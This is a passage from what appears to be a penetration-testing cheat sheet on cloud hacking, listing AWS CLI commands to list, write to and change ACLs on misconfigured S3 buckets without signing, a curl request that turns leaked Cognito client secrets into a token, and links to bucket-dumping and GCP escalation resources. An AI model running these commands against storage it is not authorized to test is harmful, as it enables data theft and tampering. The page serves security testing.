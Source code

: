 ## Cloud hacking

**Resources**
- [cloud_metadata.txt](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b), Cloud Metadata Dictionary useful for SSRF Testing


### <ins>Abusing S3 Bucket Permissions</ins>

Target example: `http://[name_of_bucket].s3.amazonaws.com`

**Read Permission**

- `aws s3 ls s3://[name_of_bucket]  --no-sign-request`
- `aws s3 ls s3://pyx-pkgs --recursive --human-readable --summarize`

**Write Permission**

- `aws s3 cp localfile s3://[name_of_bucket]/test_file.txt –-no-sign-request`

**READ_ACP**

- `aws s3api get-bucket-acl --bucket [bucketname] --no-sign`
- `aws s3api get-object-acl --bucket [bucketname] --key index.html --no-sign-request`

**WRITE_ACP**

- `aws s3api put-bucket-acl --bucket [bucketname] [ACLPERMISSIONS] --no-sign-request`
- `aws s3api put-object-acl --bucket [bucketname] --key file.txt [ACLPERMISSIONS] --no-sign-request`

**Tools**
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- [AWS CLI](https://aws.amazon.com/it/cli/)
- [S3Scanner](https://github.com/sa7mon/S3Scanner) A tool to find open S3 buckets and dump their contents
- [Cloud - AWS Pentest](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20AWS%20Pentest.md)
- [s3enum](https://github.com/koenrh/s3enum)
- To find secrets, you can use [trufflehog](https://github.com/trufflesecurity/trufflehog).

**Resources**
- [Abusing S3 Bucket Permissions](https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/)
- [Amazon S3: Allows read and write access to objects in an S3 Bucket](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_examples_s3_rw-bucket.html)


### <ins>AWS Cognito</ins>

If you've found aws cognito client id and secret
1. `clientID:clientSercret` => `base64KEY`
2. `curl -X POST 'https://xx.amazoncognito.com/oauth2/token' \   -H 'Authorization: Basic base64KEY'\   -H 'Content-Type: application/x-www-form-urlencoded' \   -d 'grant_type=client_credentials'`
3. [Source](https://twitter.com/GodfatherOrwa/status/1670617783510376448)



### <ins>Google Cloud Storage bucket</ins>

**Tools**
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- https://github.com/RhinoSecurityLabs/GCPBucketBrute

**Resources**
- https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/
- https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/
